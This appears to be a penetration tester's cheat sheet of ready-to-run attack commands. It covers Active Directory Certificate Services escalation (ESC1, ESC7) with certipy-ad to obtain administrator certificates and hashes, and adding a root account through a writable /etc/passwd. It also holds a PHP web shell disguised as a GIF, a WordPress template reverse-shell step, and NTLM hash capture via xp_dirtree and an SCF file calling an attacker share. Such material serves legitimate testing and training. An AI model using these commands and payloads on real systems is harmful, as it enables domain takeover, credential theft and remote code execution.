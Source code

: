 # Active Directory

## Certificate Services

### ESC1 Scenario

Request admin cert
`certipy-ad req -u user@domain -p password -upn administrator@domain -target dcipaddress -ca caname -template vulnerabletemplatename`

Sync local clock with DC (-u to circumvent firewall)
Sometimes, this must be done multiple times if the subsequent commands fail.
E.g., ntpdate, certipy-ad auth, ntpdate, certipy-ad auth, etc.
`sudo ntpdate -u dcipaddress`

Request TGT and admin hash
`certipy-ad auth -pfx administrator.pfx`

### ESC7 Scenario

Add user as an officer to manage and issue certificates
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -add-officer username -debug`

Enable the SubCA template on the CA
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -enable-template subca`

List templates to confirm SubCA addition
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -list-templates`

Request cert, get request ID and private key
`Type 'y' to save private key when prompted!!!`
`certipy-ad req -u username@domain -p 'password' -dc-ip ipaddress -ca caname -template SubCA -upn administrator@domain`

Use CA officer perms to manually issue failed cert
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -issue-request requestid`

Retrieve the issued cert
`certipy-ad req -u username@domain -p 'password' -dc-ip ipaddress -ca caname -retrieve requestid`

Sync local clock with DC (-u to circumvent firewall)
Sometimes, this must be done multiple times if the subsequent commands fail.
E.g., ntpdate, certipy-ad auth, ntpdate, certipy-ad auth, etc.
`sudo ntpdate -u dcipaddress`

Get TGT and dump admin hash!
`certipy-ad auth -pfx administrator.pfx`

# /etc/passwd Writable

Create New Root User
```
openssl passwd passwordofchoice > generatedhash

Create new user via append to /etc/passwd:
echo "username:generatedhash:0:0:userdisplayname:/root:/bin/bash" >> /etc/passwd
```

# File Upload Bypass

## General Notes

Brute Force Relevant File Extensions
```
Get a list of all file extensions used by or associated with the web server and it's language or tech stack.

For example, IIS/ASP will contain things like .config, .aspx, etc.
Official Microsoft Reference:
https://msdn.microsoft.com/en-us/library/2wawkw1c.aspx

Use Burp Suite Intruder to brute force uploading a file with all the different extensions.
```

## Image Upload Bypass

Change the Content-Type Header to the Expected Type
```
Convert between Content Types:
application/x-php
and
image/jpeg
etc.
```

Use Fake Gif with File Header (file.gif)
```
GIF89;
<?php echo system($_REQUEST['c']); ?>
```

# HTTP

## WordPress

Edit an active template page (e.g., 404.php) to execute a reverse shell or web shell to send a reverse shell.
```
Appearance > Editor > page.php

Execute the file:
http://target/wordpress/wp-content/themes/themenamenospaces/page.php
```

# SQL Server (MS SQL)

Capture hash using xp_dirtree and responder
```
sudo responder -I tun0 -v

SQL> exec master.sys.xp_dirtree '\\ipaddress\anyshare', 1, 1
```

# SMB

SCF (Shell Command Files)

```
Start responder: sudo responder -v -I interface

(Note: Filename starts with @ to bring file to top of directory listing)
Contents of @test.scf:

[Shell]
Command=2
IconFile=\\attacker\share\test.ico
[Taskbar]
Command=ToggleDesktop

Deliver file.

When user opens file, an SMB connection will be made to the attacker, which should be captured by responder, revealing an NTLM hash.
```